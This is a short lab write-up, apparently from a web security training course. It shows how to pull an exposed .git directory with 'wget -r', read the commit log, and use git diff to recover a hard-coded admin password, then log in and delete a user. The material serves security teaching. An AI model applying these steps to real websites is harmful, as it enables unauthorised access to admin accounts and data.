 # Lab: Information disclosure in version control history

Browse to `/.git` to see that the version control data is available. Run `wget -r <lab-url>/.git` to retrieve the whole repo.

Inspect the contents and see that `.git/logs/HEAD` contains a commit comment: 

<pre>f835e84a90b5b21f14a24a00e66bc261ade1fc07 9745843b871e560ec74eb875abdd19be2612593f Carlos Montoya <carlos@evil-user.net> 1643903580 +0000	commit: Remove admin password from config</pre>

With this informatin, the password can be found by looking at the diff of the commit hashes associated with the change:

`git diff 9745843b871e560ec74eb875abdd19be2612593f f835e84a90b5b21f14a24a00e66bc261ade1fc07`

This shows the following changes:

<pre>
@@ -1 +1 @@
-ADMIN_PASSWORD=env('ADMIN_PASSWORD')
+ADMIN_PASSWORD=8kqt7ks94qsg50q4vtu4
</pre>

Login and delete carlos to finish the lab.
